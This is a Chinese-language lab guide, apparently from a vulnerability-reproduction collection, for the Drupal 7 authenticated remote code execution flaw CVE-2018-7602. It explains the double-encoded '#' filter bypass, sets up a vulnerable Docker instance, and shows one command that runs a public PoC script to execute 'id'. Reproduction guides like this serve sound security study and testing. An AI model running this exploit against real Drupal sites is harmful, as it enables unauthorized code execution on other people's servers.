 # Drupal Drupalgeddon 3 后台远程代码执行漏洞（CVE-2018-7602）

Drupal是一个使用PHP编写的免费开源的Web内容管理框架。

在Drupal 7.x和8.x版本中存在远程代码执行漏洞。该漏洞是由于输入过滤不充分，通过对URL中的'#'字符进行两次URL编码可以绕过sanitize()函数过滤，从而导致远程代码执行。

参考链接：

- <https://www.drupal.org/sa-core-2018-004>
- <https://github.com/pimps/CVE-2018-7600>
- <https://github.com/kastellanos/CVE-2018-7602>

## 环境搭建

执行如下命令启动一个存在漏洞的Drupal 7.57服务器：

```
docker compose up -d
```

环境启动后，访问`http://your-ip:8081/`将会看到Drupal的安装页面。按照默认配置完成安装步骤。由于环境中没有MySQL，可以选择SQLite作为数据库。

安装过程中，请记住你创建的账户信息，因为需要用它来利用漏洞。

## 漏洞复现

使用来自[pimps/CVE-2018-7600](https://github.com/pimps/CVE-2018-7600/blob/master/drupa7-CVE-2018-7602.py)的PoC，执行以下命令来利用漏洞：

```
# 将"id"替换为你想执行的命令
# 第一个"drupal"是用户名，第二个"drupal"是密码
python3 drupa7-CVE-2018-7602.py -c "id" drupal drupal http://127.0.0.1:8081/
```

如下图红框所示，命令成功执行：

![](1.png)
